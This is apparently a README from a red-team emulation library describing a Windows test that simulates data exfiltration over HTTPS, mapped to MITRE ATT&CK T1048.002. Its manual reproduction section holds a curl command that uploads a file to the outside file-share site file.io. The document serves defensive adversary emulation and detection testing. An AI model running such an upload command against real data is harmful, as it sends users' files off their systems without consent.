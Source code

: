 # Exfiltrate data HTTPS using curl windows

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP is designed to exfiltrate HTTPS data using curl to file share site file.io.

Derived from [Atomic Red Team T1048.002](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1048.002/T1048.002.md#atomic-test-1---exfiltrate-data-https-using-curl-windows)

## Arguments
- **input_file**: a string variable specifying the path of the artifact. Default: $PWD\bin\artifact
- **curl_path**: a path variable specifying the path to curl executable. Default: C:\Windows\System32\curl.exe

## Pre-requisites
- Windows operating system equipped with powershell

## Examples
You can run the TTP using the following example (after updating the arguments):
```bash
ttpforge run forgearmory//exfiltration/windows/https-data-exfil/https-data-exfil.yaml
```
```bash
ttpforge run forgearmory//exfiltration/windows/https-data-exfil/https-data-exfil.yaml --arg curl_path=C:\Program\bin\curl.exe
```
```bash
ttpforge run forgearmory//exfiltration/windows/https-data-exfil/https-data-exfil.yaml --arg input_file=testArtifact
```

## Steps
1. **exfil** : Exfiltrate artifact file using curl to file share site file.io
2. **cleanup**: Removes curl if downloaded and delete files/folders created during setup

## Manual Reproduction
```bash
    #Create artifact
    "Test Text" | Out-File -FilePath "$bin\artifact"

    #Exfiltrate
    &"C:\Windows\System32\curl.exe" -F "file=@bin\artifact" -F 'maxDownloads=1' -F 'autoDelete=true' https://file.io/

```

## MITRE ATT&CK Mapping

- **Tactics**:
    - TA0010 Exfiltration
- **Techniques**:
    - T1048 Exfiltration Over Alternative Protocol
- **Subtechniques**:
    - T1048.002 Exfiltration Over Asymmetric Encrypted Non-C2 Protocol
